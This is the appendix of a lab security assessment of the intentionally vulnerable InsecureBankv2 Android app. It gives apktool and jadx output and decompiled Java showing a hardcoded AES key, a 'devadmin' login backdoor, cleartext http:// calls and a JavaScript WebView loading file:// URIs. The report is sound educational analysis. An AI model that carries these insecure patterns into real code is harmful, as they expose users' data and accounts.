| Android Backup Extractor | Latest | https://github.com/nelenkov/android-backup-extractor |
| OS | Ubuntu 22.04 LTS | — |

### D. Key Raw Output Snippets

#### apktool output
```
I: Using Apktool 2.7.0-dirty on InsecureBankv2.apk
I: Loading resource table...
I: Decoding AndroidManifest.xml with resources...
I: Baksmaling classes.dex...
I: Copying assets and libs...
```

#### jadx statistics
```
INFO  - Loaded classes: 6529, methods: 40188, instructions: 1008843
```

#### CryptoClass — hardcoded key (jadx recovered Java)
```java
public class CryptoClass {
    String key = "This is the super Secret key 123";
    byte[] keyBytes = key.getBytes();
    SecretKeySpec newKey = new SecretKeySpec(keyBytes, "AES");
    Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
}
```

#### ViewStatement — file:// URI (jadx recovered Java)
```java
mWebView.getSettings().setJavaScriptEnabled(true);
mWebView.loadUrl(
    "file://" + Environment.getExternalStorageDirectory()
    + "/Statements_" + this.uname + ".html"
);
```

#### DoLogin — backdoor (jadx recovered Java)
```java
if (DoLogin.this.username.equals("devadmin")) {
    // privileged code path
}
```

#### Network protocol constant
```java
// DoLogin.java, DoTransfer.java, ChangePassword.java
String protocol = "http://";
```

---

*This report was produced as part of a controlled lab exercise on the intentionally vulnerable InsecureBankv2 application. All findings, proof-of-concept commands, and recommendations are strictly for educational and authorized security research purposes. No live systems, real users, or production data were involved.*

---

**End of Report**
**Analyst:** aadith | **Date:** 2026-05-31 | **Version:** 1.0
